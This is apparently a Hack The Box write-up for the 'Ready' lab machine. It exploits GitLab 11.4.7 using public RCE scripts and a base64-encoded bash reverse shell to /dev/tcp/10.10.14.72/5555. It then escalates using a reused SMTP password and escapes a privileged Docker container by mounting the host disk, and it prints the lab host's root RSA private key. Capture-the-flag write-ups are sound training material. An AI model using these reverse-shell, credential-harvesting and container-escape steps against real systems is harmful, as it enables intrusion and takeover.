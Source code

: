 ```yaml
---
layout: single
title: Ready - Hack The Box
excerpt: "A vulnerable instance of Gitlab to obtain a shell. Mount the host filesystem within the container to access the root flag" 
date: 2022-09-09
classes: wide
header:
  teaser: /assets/images/htb-writeup-ready/ready_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - linux
  - gitlab
  - cve
  - docker
  - privileged container
---
```


![](/assets/images/htb-writeup-ready/ready_logo.png)

A vulnerable instance of Gitlab to obtain a shell. Mount the host filesystem within the container to access the root flag


## Portscan

```bash
❯ nmap -sCV -Pn -p22,5080 10.129.227.132 -oN targeted
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.227.132:5080/users/sign_in
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gitlab


We don't have credentials to ssh. The webserver on port 5080 runs a Gitlab instance and the robots.txt reveals us different directories.

![](/assets/images/htb-writeup-ready/gitlab1.png)

We have access to create a new account.

![](/assets/images/htb-writeup-ready/gitlab2.png)

There are no projects. What is the version of this instance? 

![](/assets/images/htb-writeup-ready/gitlab3.png)

Another way of find out the version is using the Rest API.
>Log in as any user, select the user icon in the upper right of the screen. Select Settings ==> Access Tokens. Create a personal access token and copy it to your clipboard.
>In a Linux shell, use curl to access the GitLab version
```bash
❯ curl --header "PRIVATE-TOKEN: personal-access-token" your-gitlab-url/api/v4/version
```
>![](/assets/images/htb-writeup-ready/gitlab4.png)
```bash
❯ curl --header "PRIVATE-TOKEN: HXmTosC6DzLDSYQxzvic" 10.129.227.132:5080/api/v4/version | jq '.["version"]'
{"version":"11.4.7","revision":"98f8423"}
```

Now, we have some ways to gain a shell.

Is there any exploit in searchsploit?
```bash
❯ searchsploit gitlab 11.4.7
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)                        | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)      | ruby/webapps/49257.py
```
1. First, let's try the 49257.py changing some variables. The **authenticity_token** is in the source code and the cookie in Developer Tools ==> Storage.
```bash
username='m1l0js'
authenticity_token='4CF1R6b+nvrF3iLVLeGav92Pr6A6QRP2YK0H1+bX9eEpXkubVBpv5azKpfPMysTw6zHNw7AD+xrQ4VtGjXMQRg=='
cookie = '_gitlab_session=34931d1f746491d74a00a4e2a9da29c9; sidebar_collapsed=false'
localport='4126'
localip='10.10.14.72'
url = "http://10.129.227.132:5080"
```
2. Using the other exploit listening in our machine
```bash
❯ python3 49334.py -g http://10.129.227.132 -u m1l0js -p m1l0js123. -l 10.10.14.72 -P 4127
[+] authenticity_token: ME7qmx/qNylY2Vqre+i9CK+oTA+Np0BOZdnnYC8Ggi7QnVyzO42XExPncGEfe5nDP+YDTqUbZpIiyITdczjXQA==
[+] Creating project with random name: project3122
[+] Running Exploit
[+] Exploit completed successfully!
```
3. Searching what has changed in these release. 
>1. Go to [Gitlab releases](https://gitlab.com/gitlab-org/gitlab/-/commits/master)
>2. Date?  ![](/assets/images/htb-writeup-ready/gitlab6.png)
>3. Looking many resources.
In this [github](https://github.com/jas502n/gitlab-SSRF-redis-RCE), there are very useful information. Try to understand it looking in other sites [live overflow](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) or [infosec](https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b)) 
![](/assets/images/htb-writeup-ready/gitlab7.png)
It seems that is not working, maybe we need to use base64. Note that it is necessary add a space wherever you want in the command to encoded correctly.
```bash
❯ echo -n "bash -c 'bash -i >& /dev/tcp/10.10.14.72/5555 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43Mi81NTU1IDA+JjEn
❯ echo -n "bash -c ' bash -i >& /dev/tcp/10.10.14.72/5555 0>&1'" | base64
YmFzaCAtYyAnIGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzIvNTU1NSAwPiYxJw==
```
How can we know if this works? Test it locally. Listen in this port and see if it works.
Let's modify our previous test and gain a shell.
![](/assets/images/htb-writeup-ready/gitlab8.png)


## Privesc

We could enumerate with [deepce](https://github.com/stealthcopter/deepce) or [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). We find in __/opt/backup/gitlab.rb__ file with some SMTP credentials for the gitlab application. 

```bash
cat /opt/backup/gitlab.rb | grep "pass"
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

That password is the same password as the root password for the container so we can privesc locally inside it.

```bash
git@gitlab:/opt/backup$ su -
Password: wW59U!ZKMbG9+*#h
root@gitlab:~# 
```
We have gained root access but we are in a container. Check the IP and the __/opt/backup/docker-compose.yml__
```bash
root@gitlab:~# hostname -I
172.19.0.2 
```
```bash
root@gitlab:/opt/backup# cat docker-compose.yml 
    privileged: true
```
We can escape from the container for this parameter configured. Privileged containers can access the host's disk devices so we can just read the root flag after mounting the drive.
```bash
root@gitlab:/# df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay         9.3G  7.7G  1.6G  84% /
tmpfs            64M     0   64M   0% /dev
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda2       9.3G  7.7G  1.6G  84% /root_pass
shm              64M  672K   64M   2% /dev/shm
root@gitlab:/# ls /mnt
root@gitlab:/# mkdir /mnt/sda2FromHostMachineToEscapeTheContainer
root@gitlab:/# mount /dev/sda2 /mnt/sda2FromHostMachineToEscapeTheContainer
root@gitlab:/# cd /mnt/sda2FromHostMachineToEscapeTheContainer/
```

To get a proper shell in the host OS we can use the SSH key in the root's .ssh directoy

```bash
root@gitlab:/mnt/loquesea/root/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvyovfg++zswQT0s4YuKtqxOO6EhG38TR2eUaInSfI1rjH09Q
sle1ivGnwAUrroNAK48LE70Io13DIfE9rxcotDviAIhbBOaqMLbLnfnnCNLApjCn
6KkYjWv+9kj9shzPaN1tNQLc2Rg39pn1mteyvUi2pBfA4ItE05F58WpCgh9KNMlf
YmlPwjeRaqARlkkCgFcHFGyVxd6Rh4ZHNFjABd8JIl+Yaq/pg7t4qPhsiFsMwntX
TBKGe8T4lzyboBNHOh5yUAI3a3Dx3MdoY+qXS/qatKS2Qgh0Ram2LLFxib9hR49W
rG87jLNt/6s06z+Mwf7d/oN8SmCiJx3xHgFzbwIDAQABAoIBACeFZC4uuSbtv011
YqHm9TqSH5BcKPLoMO5YVA/dhmz7xErbzfYg9fJUxXaIWyCIGAMpXoPlJ90GbGof
Ar6pDgw8+RtdFVwtB/BsSipN2PrU/2kcVApgsyfBtQNb0b85/5NRe9tizR/Axwkf
iUxK3bQOTVwdYQ3LHR6US96iNj/KNru1E8WXcsii5F7JiNG8CNgQx3dzve3Jzw5+
lg5bKkywJcG1r4CU/XV7CJH2SEUTmtoEp5LpiA2Bmx9A2ep4AwNr7bd2sBr6x4ab
VYYvjQlf79/ANRXUUxMTJ6w4ov572Sp41gA9bmwI/Er2uLTVQ4OEbpLoXDUDC1Cu
K4ku7QECgYEA5G3RqH9ptsouNmg2H5xGZbG5oSpyYhFVsDad2E4y1BIZSxMayMXL
g7vSV+D/almaACHJgSIrBjY8ZhGMd+kbloPJLRKA9ob8rfxzUvPEWAW81vNqBBi2
3hO044mOPeiqsHM/+RQOW240EszoYKXKqOxzq/SK4bpRtjHsidSJo4ECgYEA1jzy
n20X43ybDMrxFdVDbaA8eo+og6zUqx8IlL7czpMBfzg5NLlYcjRa6Li6Sy8KNbE8
kRznKWApgLnzTkvupk/oYSijSliLHifiVkrtEY0nAtlbGlgmbwnW15lwV+d3Ixi1
KNwMyG+HHZqChNkFtXiyoFaDdNeuoTeAyyfwzu8CgYAo4L40ORjh7Sx38A4/eeff
Kv7dKItvoUqETkHRA6105ghAtxqD82GIIYRy1YDft0kn3OQCh+rLIcmNOna4vq6B
MPQ/bKBHfcCaIiNBJP5uAhjZHpZKRWH0O/KTBXq++XQSP42jNUOceQw4kRLEuOab
dDT/ALQZ0Q3uXODHiZFYAQKBgBBPEXU7e88QhEkkBdhQpNJqmVAHMZ/cf1ALi76v
DOYY4MtLf2dZGLeQ7r66mUvx58gQlvjBB4Pp0x7+iNwUAbXdbWZADrYxKV4BUUSa
bZOheC/KVhoaTcq0KAu/nYLDlxkv31Kd9ccoXlPNmFP+pWWcK5TzIQy7Aos5S2+r
ubQ3AoGBAIvvz5yYJBFJshQbVNY4vp55uzRbKZmlJDvy79MaRHdz+eHry97WhPOv
aKvV8jR1G+70v4GVye79Kk7TL5uWFDFWzVPwVID9QCYJjuDlLBaFDnUOYFZW52gz
vJzok/kcmwcBlGfmRKxlS0O6n9dAiOLY46YdjyS8F8hNPOKX6rCd
-----END RSA PRIVATE KEY-----
```

```bash
ssh -i id_rsa.pem root@10.129.227.132
root@ready:~#
```

